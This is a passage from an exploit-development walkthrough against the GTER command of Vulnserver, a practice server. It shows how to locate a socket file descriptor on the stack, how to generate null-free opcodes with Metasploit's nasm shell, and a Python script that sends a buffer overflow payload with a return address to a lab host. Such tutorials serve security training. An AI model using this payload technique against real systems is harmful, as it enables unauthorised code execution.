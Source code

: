 Here in the memory dump, we can see the value of file descriptor on ```ESP+0x188```

So we can access this value at the runtime of our payload

Its time to craft the opcodes to get the file descriptor value

First we need to push the stack value and we should not perform any operations on ```ESP``` which may lead us to the wrong addresses

```c
push esp
```

After pushing the ```ESP``` we need that value to store in some register to perform arithmetic operations to reach ```ESP+0x188```

```c
pop ebx
add ebx,0x188
```

Generating opcodes using ```metasploit```,

```c
┌──(kali㉿aidenpearce369)-[~]
└─$ /usr/bin/msf-nasm_shell
nasm > push esp
00000000  54                push esp
nasm > pop ebx
00000000  5B                pop ebx
nasm > add ebx,0x188
00000000  81C388010000      add ebx,0x188
// To avoid null bytes add on BX
nasm > add bx,0x188
00000000  6681C38801        add bx,0x188
nasm > 
```

Modifying the script to test the ```EBX``` register has the address value of ```file descriptor```,

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ cat file-descriptor.py 
import socket, sys

file_descriptor=b""
file_descriptor+=b"\x54"
file_descriptor+=b"\x5b"
file_descriptor+=b"\x66\x81\xc3\x88\x01"

payload=b""
payload+=b"\x90"*20
payload+=file_descriptor
payload+=b"\x90"*(100-len(payload))
payload+=b"\xcc"
payload+=b"\x90"*50
payload+=b"\xaf\x11\x50\x62"
payload+=b"\x90"
payload+=b"\x83\xc0\x10"
payload+=b"\xff\xe0"
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GTER "+payload))
s.close()
sys.exit()
                                                                       
┌──(kali㉿aidenpearce369)-[~/vulnserver/GTER]
└─$ python3 file-descriptor.py
```
